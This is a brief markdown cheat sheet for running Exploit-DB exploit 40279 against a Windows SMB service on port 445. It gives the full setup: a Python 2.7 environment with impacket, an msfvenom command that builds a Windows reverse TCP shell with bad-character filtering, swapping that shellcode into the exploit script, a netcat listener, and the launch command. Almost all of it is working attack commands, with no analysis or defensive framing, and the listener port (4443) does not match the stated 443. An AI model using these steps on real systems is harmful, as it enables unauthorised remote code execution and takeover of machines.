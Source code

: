 ### Prepare exploit
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip2 install impacket
pip2 install pycrypto
```

### Generate reverse shell (lport 443 works fine)
```
msfvenom -p windows/shell_reverse_tcp lhost=<lhost> lport=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### Replace shellcode
```
vim 40279.py
# insert:
shellcode="[...]"
shellcode+=[...]
```

### Start listener
```
nc -lnvp 4443
```

### Exploit
```
python2.7 40279.py <rhost> 445
```

### References
https://www.exploit-db.com/exploits/40279  

